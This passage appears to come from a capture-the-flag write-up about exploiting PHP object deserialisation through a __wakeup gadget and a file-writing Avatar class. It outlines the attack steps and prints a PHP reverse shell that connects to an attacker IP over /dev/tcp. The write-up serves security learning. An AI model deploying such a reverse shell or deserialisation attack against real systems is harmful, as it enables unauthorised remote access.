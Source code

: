 ```php
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
```
{% endcode %}

The function is called via the `swap_theme.php` file. (use LFI to read)

{% code title="swap_theme.php" %}
```php
// Swap the theme
include_once "includes/utils.php";
if (strcmp(get_theme(), "light") === 0) {
    set_theme("dark");
} else {
    set_theme("light");
}
```
{% endcode %}

Here's a good article to read on exploiting PHP deserialisation:

{% embed url="https://snoopysecurity.github.io/web-application-security/2021/01/08/02_php_object_injection_exploitation-notes.html" %}

Now, within the `Avatar` class, we can see a `__construct` function being used, which is invoked when an object is created. The class also takes in `tmp` file and writes it out on the machine.&#x20;

So the exploit path is simple:

* Create a new object via injection
* Have the machine use `fopen` to read a file (via HTTP) and write it to the machine. This file would be a reverse shell.
* `curl` the file and gain a reverse shell.

Here's a reverse shell that can work:

```php
<?php
  system("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.4/4444 0>&1'");
?>
```

Then, we need to generate a cookie using specific values from the classes. A simple script with pre-defined variables to serialise and create our cookie suffices.
